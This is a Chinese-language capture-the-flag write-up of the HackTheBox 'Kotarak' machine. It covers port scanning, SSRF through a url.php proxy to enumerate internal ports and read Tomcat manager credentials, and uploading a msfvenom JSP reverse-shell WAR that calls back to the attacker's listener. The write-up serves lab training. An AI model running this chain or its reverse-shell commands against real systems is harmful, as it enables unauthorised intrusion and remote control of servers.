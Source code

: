 ```yaml
---
title: kotarak（ssrf+上传）
categories:
- training
tags:
- training
---
```

<html>
<head>
<meta charset="UTF-8">
<title>kotarak（ssrf+上传）</title>
</head>
<body>
<h1 id="kotarak（tomcat-web-server）">Kotarak（tomcat web server）</h1>
<ul>
<li>端口扫描</li>
</ul>
<blockquote>
<p>22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)<br>
8009/tcp open  ajp13  Apache Jserv (Protocol v1.3)<br>
8080/tcp open  http    Apache Tomcat 8.5.5<br>
Service Info: <strong>OS: Linux</strong>; CPE: cpe:/o:linux:linux_kernel</p>
</blockquote>
<p>首先访问http://10.10.10.55:8080，显示HTTP Status 404 - /，状态码404not found。于是枚举目录。</p>
<blockquote>
<p>dirb <a href="http://10.10.10.55:8080">http://10.10.10.55:8080</a></p>
</blockquote>
<pre><code>+ http://10.10.10.55:8080/docs (CODE:**302**|SIZE:0)

+ http://10.10.10.55:8080/examples (CODE:302|SIZE:0)                         

+ http://10.10.10.55:8080/favicon.ico (CODE:200|SIZE:21630)                   

+ http://10.10.10.55:8080/host-manager (CODE:302|SIZE:0)                     

+ http://10.10.10.55:8080/manager (CODE:302|SIZE:0)
</code></pre>
<p>发现基本上都是302重定向。</p>
<p>于是访问下 <a href="http://10.10.10.55:8080/manager">http://10.10.10.55:8080/manager</a> （A地址）</p>
<p>发现302重定向到http://10.10.10.55:8080/manager/ （B地址）</p>
<p>并且，B地址的状态码是404。但是404页面有个提示，tomcat 7重构并且有些urls已经改变。所有使用管理应用的urls现在应该使用如下选项：</p>
<blockquote>
<p>/manager/html for the HTML GUI<br>
/manager/text for the text interface<br>
/manager/jmxproxy for the JMX proxy<br>
/manager/status for the status pages</p>
</blockquote>
<p>既然提示这么贴心了，那我们就按照所说的访问一下。</p>
<p>然后发现，所给的urls都需要<strong>登陆</strong>才能访问。</p>
<figure data-type="image"><img src="$res/2883590-ab8b47382ef604b6.png" alt=""></figure>
<p>再搜索下 Apache Tomcat 8.5.5。<a href="http://blog.csdn.net/posonrick/article/details/72566875">参考</a></p>
<p>tomcat是java web服务器</p>
<p>尝试访问：<a href="http://10.10.10.55:8080/index.jsp">http://10.10.10.55:8080/index.jsp</a> ，200ok。<br>
然后没有思路了。。最讨厌爆破了。。</p>
<p>终于等到了writeup出来的那一天，不过与此同时，靶机也下线了。</p>
<h1 id="ssrf-服务端请求伪造">SSRF-服务端请求伪造</h1>
<p>没有经验的小白先跟whale学习下。<br>
该漏洞经常出现在服务端，一些web应用程序经常从其他server获取信息。</p>
<blockquote>
<p>客户端 （去B服务器取回图片 !）——》A服务端（执行）————》B服务器（返回图片）————》A服务器（执行完毕）————》客户端（收到图片）</p>
</blockquote>
<h2 id="攻击方式：">攻击方式：</h2>
<blockquote>
<p>客户端（去扫描B服务器 ！）——》A服务端（执行）————》B服务器（返回数据包）————》A服务器（执行完毕）————》客户端（收到扫描结果）</p>
</blockquote>
<p>服务器没有过滤客户端的请求。本来设计的功能想法是好的，但是攻击者不打算<strong>以设计者的想法</strong>来使用这个功能。</p>
<p>代码不多说，本文只讲讲实践部分，至于更深层次的漏洞原理和代码片段还需要各位自行学习。</p>
<p>再次扫描，全端口扫描</p>
<blockquote>
<p>nmap -p- -sV 目标的ip</p>
</blockquote>
<p>作者扫描出了一个开放在60000的端口，类型是未知。但是我扫描的结果是，需要8个多小时。。想了半天才想起来，目标机器是在美国，对于网速实在不能苛求。。（感觉好坑，天朝就没有这种试验靶场吗）</p>
<figure data-type="image"><img src="$res/2.PNG" alt=""></figure>
<p>扫描出了以后，用浏览器访问。</p>
<figure data-type="image"><img src="$res/%E6%8D%95%E8%8E%B7.PNG" alt=""></figure>
<pre><code>使用这个私人的web浏览器匿名在网络冲浪，请不要滥用它。
</code></pre>
<ul>
<li>Trying</li>
</ul>
<pre><code>python -m SimpleHTTPServer
ifconfig
在本地开启服务器，查看本地ip。
</code></pre>
<p>尝试用浏览器上的该功能访问下本地，是否成功。<br>
输入<code>http://本地ip：8000</code><br>
浏览器跳转到一个地址<code>http://10.10.10.55:60000/url.php?path=http://本地ip:8000</code><br>
成功访问客户端本地地址。</p>
<ul>
<li>Trying</li>
</ul>
<p>然后尝试ssrf，提交<code>file:///etc/passwd</code><br>
返回<code>try harder</code><br>
尝试File FIlE  ,同样的返回结果。说明目标机可能用正则表达式限制了file这个字符。</p>
<ul>
<li>Trying<br>
尝试<code>http://localhost:60000</code>  返60000端口上的正常页面。<br>
因为端口扫描那一步<strong>客户端访问都是302重定向</strong>，需要登陆才能访问，于是我们通过60000端口上的“搜索”功能，绕过对客户端的限制。让服务器替我们获取想要的信息。</li>
</ul>
<h1 id="wfuzz">wfuzz</h1>
<ul>
<li>这是一个web扫描软件<br>
可以用<code>wfuzz -h</code> 查看使用方式<br>
我们使用下列参数，扫描服务器开放的端口<br>
<code>wfuzz -c -z range,1-65535 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code></li>
</ul>
<p><img src="$res/3.PNG" alt=""><br>
图片中，2 Ch是响应的字符串，访问后发现没有任何有价值的东西，于是我们忽略它。<br>
<code>wfuzz -c -z range,1-65535 --hl=2 http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ</code><br>
扫描后，我们得到了非2 Ch的响应结果。<br>
看到了很多端口信息，因为<strong>客户端nmap扫描是远程访问</strong>，有 防火墙等等，所以在这里会得到更加详细的（在远程扫描不到的）端口信息。</p>
<ul>
<li>trying<br>
一个一个访问这些开放了的端口，<code>http://10.10.10.55:60000/url.php?path=http://localhost:端口</code><br>
在888端口，找到了一个备份页面backup。</li>
</ul>
<figure data-type="image"><img src="$res/4.PNG" alt=""></figure>
<ul>
<li>Trying</li>
</ul>
<p>访问备份页面的地址<code>http://10.10.10.55:60000/url.php?path=http://localhost:888/?doc=backup</code><br>
url编码一下<code>http%3A%2f%2f10.10.10.55%3A60000%2furl.php%3Fpath%3Dhttp%3A%2f%2flocalhost%3A888%2f%3Fdoc%3Dbackup</code><br>
得到了可能是tomcat配置文件中的用户名密码。</p>
<p>（有一个小技巧，在端口扫描那一步，得到了不能访问的文件名，可以用ssrf去访问，来获取敏感文件。）</p>
<p><img src="$res/5.PNG" alt=""><br>
我们用这个口令登陆端口扫描那一步获得的地址<code>manager/html</code></p>
<figure data-type="image"><img src="$res/6.PNG" alt=""></figure>
<h2 id="获取shell">获取shell</h2>
<p>刚刚通过ssrf获取敏感文件，从而突破防线，接下来，我们要获取一个shell。</p>
<p><img src="$res/7.PNG" alt=""><br>
用msfvenom生成一个payload，接下来要将它上传到目标机上运行。<br>
因为主页面上有上传功能，提示：</p>
<pre><code>deploy directory or WAR file located on server.
war file to deploy 
select war file to upload.
</code></pre>
<p>暗示了我们可以上传一个war类型的反弹shell。</p>
<blockquote>
<p>msfvenom -p java/jsp_shell_reverse_tcp LHOST=kali的ip LPORT=80 -f war &gt; ippsec.war</p>
</blockquote>
<p><code>War——web归档文件，war文件用于封装web模块。web模块可以代表一个独立的web应用程序。</code></p>
<ul>
<li>Trying<br>
成功上传——本地nc监听80端口<code>nc -lnvp 80</code>——浏览器访问payload地址，即可获得一个shell。</li>
</ul>
<p><code>python -c 'import pty;pty.spawn(&quot;/bin/bash&quot;)'</code></p>

</body>
</html>
